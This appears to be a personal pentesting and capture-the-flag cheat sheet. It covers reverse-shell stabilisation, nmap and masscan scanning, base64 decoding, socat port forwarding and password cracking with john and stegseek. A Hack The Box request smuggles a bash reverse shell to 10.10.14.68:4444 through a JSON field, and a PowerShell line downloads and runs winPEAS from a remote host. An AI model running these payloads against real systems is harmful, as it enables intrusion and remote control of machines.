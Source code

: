 ## 1. Stabilize your reverse shell
  
    
         python3 -c "import pty;pty.spawn('/bin/bash')"
         export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
         export TERM=xterm-256color
         alias ll='ls -lsaht --color=auto'
          ctrl+Z  (in target) 
         stty raw -echo;fg;reset
               press enter times 3
                   in my machine run 
                    stty -a ( output = speed 38400 baud; rows 40; columns 174; line = 0;)
                   Then in target run below 
         stty columns 174 rows 40
      
## 2. Nmap scan script
    $ cat nmap-scan.sh 
    ports=$(nmap -p- --min-rate=1000  -T4 $1 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
    nmap -sC -sV -p$ports $1
    sudo masscan 34.125.4.41  -p0-65535,U:0-65535

   #### usage
    $ ./nmap-scan.sh <ip_to_scan>
## 3. Crypto
#### base64 encode
    $ echo -n "administrator:password" | base64
    YWRtaW5pc3RyYXRvcjpwYXNzd29yZA==
#### base64 decode
    $ echo "YWRtaW5pc3RyYXRvcjpwYXNzd29yZA==" | base64 -d
    administrator:password 
#### For nested base64 files
    #!/usr/bin/env python3

    import sys
    import base64

    if len(sys.argv) < 2:
      print("Usage: {} <file.b64.txt>".format(sys.argv[0]))
      sys.exit(1)

    data = open(sys.argv[1], "r").read()

    while True:
      try:
        data = base64.b64decode(data)
      except:
        break

    print(data)
    
  ##### To use it:
 

    $ python3 decode_nested_b64.py b64.txt 
    b'flag 44: ygm2my89uqzirzj0nojw'
#### base32
    $ echo "NBSWY3DPEB3W64TMMQQQU===" | base32 -d
    hello world!
  
  ## Port forwading
  ### using socat 
          socat tcp-listen:9090,fork tcp:127.0.0.1:631  ....631 is internal port  ... 9090 is the port i will in mymachine
## BASH automation
*  cracking with all password list from seclists/Passwords
  
       for i in $(ls /usr/share/seclists/Passwords/ | grep .txt); do john hash /usr/share/seclists/Passwords/$i; done

 * cracking images
 
       for i in $(ls /usr/share/seclists/Passwords/ | grep *.txt); do stegseek event_banner.jpg /usr/share/wordlists/SecLists/Passwords/$i; done

   ### davzat hack the box machine getting shell
   
           POST /api/pet HTTP/1.1
            Host: pets.devzat.htb
            User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
            Accept: */*
            Accept-Language: en-US,en;q=0.5
            Accept-Encoding: gzip, deflate
            Referer: http://pets.devzat.htb/api/pets/
            Content-Type: text/plain;charset=UTF-8
            Origin: http://pets.devzat.htb
            Content-Length: 126
            DNT: 1
            Connection: close

            {"name":"aaaaa","species":"gopher;echo 'bash -i >& /dev/tcp/10.10.14.68/4444 0>&1' > sh.sh; chmod +x sh.sh;/bin/bash ./sh.sh"}
### Formating an id_rsa
   
     echo "-----BEGIN OPENSSH PRIVATE KEY-----" > id_rsa
     
  then body 
  
    echo "b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcnNhAAAAAwEAAQAAAYEAt9IoI5gHtz8omhsaZ9Gy+wXyNZPp5jJZvbOJ946OI4g2kRRDHDm5x7up3z5s/H/yujgjgroOOHh9zBBuiZ1Jn1jlveRM7H1VLbtY8k/rN9PFe/MkRsYdH45IvVbhFErAeoncE3vJAAAACXJvb3RAbWV0YQE=" | sed 's/ /\n/g' >> id_rsa
    
 Then ending 
  
      echo "-----END OPENSSH PRIVATE KEY-----" >> id_rsa
      
### Convert Python 2 to python 3 using a python library.

We can convert Python2 scripts to Python3 scripts by using the 2to3 module. It changes Python2 syntax to Python3 syntax. We can change all the files in a particular folder from python2 to python3.

Step 1: Open your terminal and navigate to your File

Open your terminal or CMD depend on whatever you are using Windows or Linux.

Navigate to the directory where your python file(s) is/are located. (of course, using the “cd” command)

Step 2: Install the library

As usable, use pip to install 2to3, use can use any other library as well, I like 2to3

Commnd: pip install 2to3

Step 3: Convert the files
Excute: 2to3 [file or folder] -w
    
### Copy files to windows operating system

    powershell.exe Invoke-WebRequest -Uri http://10.4.67.180:8000/winPEASx64.exe -OutFile .\winPEASx64.exe && .\winPEASx64.exe"

